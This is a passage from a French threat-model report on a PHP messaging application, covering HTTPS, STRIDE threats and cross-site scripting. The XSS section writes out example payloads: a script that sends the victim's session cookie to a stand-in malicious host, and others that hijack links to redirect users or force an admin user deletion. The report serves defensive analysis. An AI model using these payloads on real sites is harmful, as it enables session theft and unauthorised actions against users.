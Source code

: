 - **Contrôles** :
  - Bien que cette contre-mesure ne sera pas mise en place dans le cadre de ce projet, la solution la plus efficace à ce problème de sécurité est de passer le serveur en HTTPS afin que tous les messages échangés soient chiffrés pour ainsi assurer la confidentialité, l'intégrité et l'authenticité
  
- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  
  - Tampering
  
  - Repudiation
  
  - Information disclosure
  
  - Elevation of privilege (interception d'une requête provenant d'un administrateur, détaillée plus haut)
    

#### 4. Attaque Cross-Site Scripting

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Sources de la menace** : employé mécontent, malin ou curieux

- **Motivation** : sabotage, divulgation d'information, curiosité, usurpation d'identité

- **Actif(s) visé(s)** : compte de l'employé visé 

- **Scénarios d'attaque** :

  - A l'aide d'une balise `<script>` injectée dans le sujet d'un message par exemple, un attaquant peut voler le cookie *PHPSESSID* de l'employé cible en lui envoyant ce message. À l'ouverture de sa mailbox, le script sera exécuté et enverra le cookie de l'employé au site malicieux de l'attaquant, il pourra ensuite utiliser ce cookie dans son navigateur afin de lui voler sa session.

    Exemple de script :
    
    ```html
    <script>fetch("http://www.malicious-site.com/steal?cookie=" + document.cookie);</script>
    ```
    
  - Même principe que le scénario précédent mais là, l'attaquant va modifier le DOM de l'employé cible et changer le comportement d'un lien ou d'un bouton pour le rediriger sur un site malicieux.

    Exemple de script :

    ```html
    <script>var logoutBtn = document.getElementsByTagName("a")[3]; logoutBtn.href = "http://www.malicious-site.com";</script>
    ```

  - En reprenant le scénario précédent, un attaquant peut également profiter des fonctionnalités accessibles uniquement par un administrateur en modifiant l'action d'un bouton pour que l'employé admin visé effectue une action involontaire en appuyant sur celui-ci.

    Exemple de script :

    ```html
    <script>var logoutBtn = document.getElementsByTagName("a")[3]; logoutBtn.href = "index.php?action=delete_user&no=24";</script>
    ```
